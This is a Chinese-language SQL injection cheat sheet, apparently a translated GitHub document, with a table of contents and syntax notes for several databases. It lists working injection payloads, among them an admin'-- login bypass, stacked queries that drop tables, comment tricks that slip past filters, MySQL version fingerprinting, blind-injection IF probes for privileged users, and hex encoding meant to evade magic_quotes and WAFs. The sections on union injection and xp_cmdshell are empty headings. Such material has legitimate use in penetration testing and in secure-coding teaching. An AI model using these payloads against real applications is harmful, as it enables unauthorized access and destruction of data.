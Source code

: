# SQL注入速查表

<small>*文档版本：1.4*</small>

## 关于SQL注入速查表
现在仅支持MySQL、Microsoft SQL Server，以及一部分ORACLE和PostgreSQL。大部分样例都不能保证每一个场景都适用。现实场景由于各种插入语、不同的代码环境以及各种不常见甚至奇特的SQL语句，而经常发生变化。

样例仅用于读者理解对于“可能出现的攻击(a potential attack)”的基础概念，并且几乎每一个部分都有一段简洁的概要

M:	MySQL
S: SQL Server
P:	PostgreSQL
O:	Oracle
+: (大概)其他所有数据库

*例子*：
+ (MS) 代表 : MySQL 和 SQL Server 等
+ (M*S) 代表 : 仅对某些版本或者某些附在后文中的特殊情况的 MySQL，以及SQL Server

## 目录
1. 关于SQL注入速查表
1. 语法参考，攻击样例以及注入小技巧
	1. 行间注释(Line Comments)
		+ 使用了行间注释的SQL注入攻击样例
	1. 行内注释(Inline Comments)
		+ 使用了行内注释的注入攻击样例
		+ MySQL版本探测攻击样例
	1. 堆叠查询(Stacking Queries)
		+ 支持堆叠查询的语言/数据库
		+ 关于MySQL与PHP
		+ 堆叠注入攻击样例
	1. If语句
		+ MySQL的If语句
		+ SQL Server的If语句
		+ 使用了If语句的注入攻击样例
	1. 整数(Integers)的使用
	1. 字符串操作
		+ 字符串的串联
	1. 过滤单引号的字符串
		+ 使用了16进制的注入攻击样例
	1. 字符串异化(Modification)与联系
	1. Union注入
		+ UNION-语言问题处理
	1. 绕过登陆界面
	1. 在SQL Server 2005中启用xp_cmdshell
	1. 其他未整理的笔记

## 语法参考，攻击样例以及注入小技巧
### 行间注释
**注释掉查询语句的其余部分**
行间注释通常用于注释掉查询语句的其余部分，这样你就不需要去修复整句语法了。

+ `--`(SM)

	```DROP sampletable;-- ```

+ `#`(M)

	```DROP sampletable;# ```
	
#### 使用了行间注释的SQL注入攻击样例
> 用户名:`admin'--`

+ 构成语句:`SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'`
这会使你以admin身份登陆，因为其余部分的SQL语句被注释掉了。

### 行内注释
**通过不关闭注释注释掉查询语句的其余部分**，或者用于**绕过过滤**，移除空格，混淆，或探测数据库版本。

+ `/*注释内容*/`(SM)
	+ `DROP/*comment*/sampletable`
	+ `DR/**/OP/*绕过过滤*/sampletable`
	+ `SELECT/*替换空格*/password/**/FROM/**/Members`
+ `/*! MYSQL专属 */` (M) 

	这是个MySQL专属语法。非常适合用于探测MySQL版本。如果你在注释中写入代码，只有MySQL才会执行。同样的你也可以用这招，使得只有高于某版本的服务器才执行某些代码。
	```SELECT /*!32302 1/0, */ 1 FROM tablename```

#### 使用了行内注释的注入攻击样例
> ID:`10; DROP TABLE members /*`

简单地摆脱了处理后续语句的麻烦，同样你可以使用`10; DROP TABLE members --`

#### MySQL版本探测攻击样例
> `SELECT /*!32302 1/0, */ 1 FROM tablename `

如果MySQL的版本高于**3.23.02**，会抛出一个`division by 0 error`

> ID:`/*!32302 10*/`

> ID:`10`

如果MySQL版本高于3.23.02，以上两次查询你将得到相同的结果

### 堆叠查询(Stacking Queries)
**一句代码之中执行多个查询语句**，这在每一个注入点都非常有用，尤其是使用SQL Server后端的应用

+ `;`(S)
	`SELECT * FROM members; DROP members--`
	结束一个查询并开始一个新的查询

#### 支持堆叠查询的语言/数据库
**绿色：**支持，**暗灰色：**不支持，**浅灰色：**未知
![支持堆叠查询的语言/数据库](http://ww2.sinaimg.cn/large/7d52f1ffgw1euwiy9impsj20dn03sgls.jpg)

#### 关于MySQL和PHP
阐明一些问题。

**PHP-MySQL不支持堆叠查询**，Java不支持堆叠查询（ORACLE的我很清楚，其他的就不确定了）。一般来说MySQL支持堆叠查询，但由于大多数PHP-Mysql应用框架的数据库层都不能执行第二条查询，或许MySQL的客户端支持这个，我不确定，有人能确认一下吗？

*（译者注：MySQL 5.6.20版本下客户端支持堆叠查询）*

#### 堆叠注入攻击样例
> ID:`10;DROP members --`

构成语句：`SELECT * FROM products WHERE id = 10; DROP members--`

这在执行完正常查询之后将会执行DROP查询。

### If语句
根据If语句得到响应。这是**盲注(Blind SQL Injection)的关键之一**，同样也能简单而**准确地**进行一些测试。

#### MySQL的If语句
+ `IF(condition,true-part,false-part)`(M)

	> `SELECT IF (1=1,'true','false')`

#### SQL Server的If语句
+ `IF condition true-part ELSE false-part`(S)

	> `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

#### 使用了If语句的注入攻击样例
> `if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0`(S)

如果当前用户不是**"sa"或者"dbo"**,就会抛出一个**`divide by zero error`**。

### 整数(Integers)的使用
对于绕过十分有用，比如**magic_quotes() 和其他类似过滤器**，甚至是各种WAF。

+ `0xHEXNUMBER`(SM)

	(HEXNUMBER:16进制数）
	你能这样使用16进制数：
	> `SELECT CHAR(0x66)`(S)

	> `SELECT 0x5045`(M) (这不是一个整数，而会是一个16进制字符串）
	
	> `SELECT 0x50 + 0x45`(M) (现在这是整数了)

### 字符串操作
#### 字符串的串联
### 过滤单引号的字符串
#### 使用了16进制的注入攻击样例
### 字符串异化(Modification)与联系
### Union注入
#### UNION-语言问题处理
### 绕过登陆界面
### 在SQL Server 2005中启用xp_cmdshell
### 其他未整理的笔记